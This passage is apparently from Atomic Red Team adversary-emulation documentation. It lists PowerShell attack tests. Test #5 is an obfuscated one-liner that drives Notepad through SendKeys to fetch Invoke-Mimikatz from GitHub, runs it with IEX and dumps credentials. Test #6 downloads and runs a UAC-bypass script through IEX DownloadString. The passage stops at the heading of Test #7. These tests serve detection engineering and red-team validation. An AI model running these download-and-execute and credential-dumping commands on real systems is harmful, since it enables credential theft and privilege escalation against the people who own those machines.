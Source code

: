 ## Atomic Test #5 - Mimikatz - Cradlecraft PsSendKeys

Run mimikatz via PsSendKeys. Upon execution, automated actions will take place to open file explorer, open notepad and input code, then mimikatz dump info will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** af1800cf-9f9d-4fd1-a709-14b1e6de020d

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$url='https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr
```

<br/>
<br/>

## Atomic Test #6 - Invoke-AppPathBypass

Note: Windows 10 only. Upon execution windows backup and restore window will be opened.

Bypass is based on: https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/

**Supported Platforms:** Windows

**auto_generated_guid:** 06a220b6-7e29-4bd8-9d07-5b4d86742372

#### Attack Commands: Run with `command_prompt`!

```cmd
Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/a0dfca7056ef20295b156b8207480dc2465f94c3/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass -Payload 'C:\Windows\System32\cmd.exe'"
```

<br/>
<br/>

## Atomic Test #7 - Powershell MsXml COM object - with prompt
